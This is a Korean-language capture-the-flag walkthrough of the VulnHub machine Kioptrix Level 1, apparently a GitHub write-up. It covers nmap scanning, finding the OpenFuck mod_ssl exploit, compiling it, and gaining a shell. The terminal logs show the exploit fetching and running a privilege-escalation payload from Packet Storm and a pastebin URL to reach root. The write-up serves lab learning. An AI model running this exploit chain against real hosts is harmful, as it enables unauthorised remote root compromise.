 # Kioptrix Level 1 (#1)

## Workstation
- Virtual Box : VMware Workstation 16 Player
- OS : kali-linux-2022.01

## Walkthrough
`https://www.vulnhub.com/entry/kioptrix-level-1-1,22/`

KIOPTRIX: LEVEL 1 (#1) 에 대한 가상머신은 위 사이트에서 다운받을 수 있다.

해당 가상머신을 다운받은 후 VMware 워크스테이션에서 열어 활성화 시킨다.

![kioptrix level 1](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/kioptrix_level_1.png)

가상머신의 아이피 주소를 알기 위해 `ip addr` 명령어를 사용해 IP 대역을 확인한다.

![ip addr](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/ip_addr.png)

IP 대역을 확인해 보니 192.168.159.0/24 대역을 사용 중이다.

그럼 이 대역에서 사용하는 클라이언트들을 확인하기 위해 `nmap -sn` 명령어를 사용해 확인한다.

![nmap-sn](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/nmap-sn.png)

내 아이피는 `192.168.159.128` 이므로 Kioptrix Level 1의 가상머신 아이피는 `192.168.159.129`이다.

그럼 가상머신에 열려있는 포트와 버전을 알기 위해 `nmap -sT -sV` 명령어로 네트워크 스캔을 한다.

![nmap](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/nmap.png)

80번 포트에 http 서버가 열려있다. 80번 포트에 대한 취약점이 있는지 `searchexploit` 명령어를 버전에 맞게 검색한다.

![searchexploit](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/searchexploit.png)

`OpenSSL/0.9.6b` 에 OpenFuck.c 라는 취약점이 발견됐다. 가장 최신버전인 파일을 `searchexploit -m 47080` 명령어를 사용해 내 디렉터리에 복사해 온다.

![copy](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/copy.png)

복사한 파일을 확인해 보면 다음과 같이 컴파일하라는 명령어가 있다.

![47080](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/47080.png)

그럼 안내해준 명령어를 사용해 해당 파일을 컴파일 한다.

![gcc](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/gcc.png)

컴파일된 파일을 실행해 보면 사용할 수 있는 옵션들이 나오는데, 그 중 취약점으로 발견된 `RedHat Linux apache-1.3.20-16` 에 대한 옵션을 찾는다.

![0x6b](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/0x6b.png)

`0x6b` 옵션을 사용해 가상머신의 루트 권한을 획득해 본다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--15:08:57--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$ 
bash-2.05$ whoami
whoami
apache
bash-2.05$ 
```

루트 권한을 얻지 못하고 apache 권한을 얻었다. 취약점 공격이 실패 해 확인해 보니 Exploit DB에 업로드된 OpenFuck.c 파일이 이전버전으로 루트 권한을 얻지 못했다. 해당 파일은 삭제 후 다른 OpenFuck 파일을 받아 컴파일하여 실행한다.

`git clone https://github.com/heltonWernik/OpenFuck.git`

![git](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/git.png)

![compile](https://github.com/jasperkim425/Walkthrough/blob/main/VulnHub/Kioptrix%20Level%201%20(%231)/image/compile.png)

다시 컴파일된  실행해 보면 루트 권한을 얻은 쉘을 얻을 수 있다.

```
┌──(kali㉿kali)-[~/vulnhub/kioptrix1/OpenFuck]
└─$ ./OpenFuck 0x6b 192.168.159.129 443 -c 40             

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--15:19:17--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

15:19:19 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
[+] Attached to 6076
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root

```
